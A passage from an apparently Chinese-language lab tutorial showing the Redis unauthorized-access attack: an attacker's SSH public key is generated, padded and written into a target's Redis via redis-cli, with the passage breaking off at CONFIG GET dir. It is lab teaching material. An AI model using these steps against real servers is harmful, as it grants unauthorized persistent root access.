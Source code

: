 **实例**

1. 靶机中开启redis服务：`redis-server /etc/redis.conf`

2. 在靶机中执行 `mkdir /root/.ssh` 命令，创建`ssh`公钥存放目录

在攻击机中生成ssh公钥和私钥，密码设置为空：

```plain
ssh-keygen -t rsa
```
<p align="center"><img src="img/2/redis/12.png" width="800px"></p>

进入`.ssh`目录：`cd .ssh/`，将生成的公钥保存到`test.txt`：

```plain
# 将公钥的内容写到一个文本中命令如下
(echo -e "\n\n"; cat id_rsa.pub; echo e "\n\n") > test.txt
```
<p align="center"><img src="img/2/redis/13.png" width="800px"></p>

链接靶机上的`redis`服务，将保存`ssh`的公钥`1.txt`写入`redis`（使用`redis-cli -h ip`命令连接靶机，将文件写入）

```plain
  cat test.txt | redis-cli -h <hostname> -x set test
```
<p align="center"><img src="img/2/redis/14.png" width="800px"></p>


远程登录到靶机 redis 数据库，并使用`CONFIG GET dir`命令得到redis备份的路径：
